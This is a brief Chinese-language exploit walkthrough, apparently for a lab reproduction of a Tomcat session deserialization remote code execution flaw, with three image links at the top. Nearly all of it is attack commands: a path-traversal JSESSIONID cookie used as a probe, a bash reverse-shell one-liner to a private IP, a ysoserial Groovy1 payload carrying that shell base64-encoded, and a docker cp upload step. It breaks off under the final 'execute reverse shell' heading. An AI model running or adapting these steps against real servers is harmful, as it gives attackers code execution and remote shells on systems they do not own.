



# 1.  设置cookie 访问主页查看是否有该漏洞

Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy

返回500 说明有代码执行

# 2 . 构造反弹shell命令

bash -i >& /dev/tcp/192.168.44.131/1234 0>&1

java -jar ysoserial.jar Groovy1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}"  > rce.session

# 3 . 上传反序列化文件rce.session

docker cp rce.session e85a329ccca3:/usr/local/tomcat/rce.session

# 4. 执行反弹shell

